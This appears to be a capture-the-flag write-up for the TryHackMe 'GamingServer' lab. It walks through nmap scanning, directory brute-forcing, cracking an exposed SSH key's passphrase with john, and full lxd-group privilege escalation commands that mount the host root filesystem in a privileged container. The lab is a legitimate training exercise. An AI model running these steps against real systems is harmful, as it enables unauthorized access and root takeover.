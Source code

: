 # GamingServer

***
![](https://tryhackme-images.s3.amazonaws.com/room-icons/80d16a6756c805903806f7ecbdd80f6d.jpeg)

## Difficulty = Easy

***

Running our nmap scan we have -:

```bash
# Nmap 7.94 scan initiated Tue Oct 24 20:04:40 2023 as: nmap -p22,80 -sCV -T4 -v --min-rate=1000 -oN nmap.txt 10.10.215.56
Nmap scan report for 10.10.215.56
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 24 20:05:01 2023 -- 1 IP address (1 host up) scanned in 21.12 seconds
```

Navigating to port `80/HTTP` we have

![](https://i.imgur.com/rNM7tm3.png)

viewing **page-source** we have a username

![](https://i.imgur.com/AmtNMzC.png)


Running dir/file bruteforce with `dirsearch` we have 2 important directories


![](https://i.imgur.com/im9Mygc.png)

Navigating to `/secret` we have an **secretkey** which should be the `id_rsa` key for user **john**

![](https://i.imgur.com/EnWaqzo.png)

Downloading the file via `wget` and trying to log in we can see the **secretkey** file is encrypted which is why we need a passphrase

![](https://i.imgur.com/WDSh1RV.png)

checking `/uploads` on the website we have 3 files

![](https://i.imgur.com/tRM9q4X.png)

`/uploads/dict.lst` looks like a wordlist, we can use this to bruteforce the **secretkey** file

![](https://i.imgur.com/6DJ7yiu.png)

convert the **secretkey** file to a brute forceful file using `ssh2john`

![](https://i.imgur.com/3PA0wkM.png)

Then download the `dict.lst` file with `wget`

```bash
$ wget http://10.10.94.196/uploads/dict.lst
```

Then bruteforce the `id_rsa` file with john using the `dict.lst` file as our wordlist

![](https://i.imgur.com/vUKZoPD.png)

Now we can try to login again via `SSH` with the **secretkey** file and password `letmein`


![](https://i.imgur.com/DWwzxOb.png)

running the `id` command we can see that the **lxd** group is set

![](https://i.imgur.com/4ruV1oe.png)

Return to your attacker machine and run this commands

```bash
# switch user to root
$ sudo su

# download and setup the alpine image
$ git clone  https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ ./build-alpine
```

![](https://i.imgur.com/TAhaoII.png)


Start up your python server and send the `.gzip` compiled alpine image

```bash
# on attacker machine
$ python3 -m http.server 80

# on victim machine
$ cd /tmp
$ wget IP/file.tar.gz
```


![](https://i.imgur.com/umZdCsz.png)

Now on our victim machine run the following command and you should be user **root**

```bash
$ lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
$ lxc image list
$ lxc init myimage ignite -c security.privileged=true
$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start ignite
$ lxc exec ignite /bin/sh
```


![](https://i.imgur.com/HnWd6n5.png)

Root flag is located under `/mnt/root/root`

Bankai⚕️

![](https://i.pinimg.com/originals/b8/67/d4/b867d4ed3b8202d73e1f17c8173aeed2.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


  
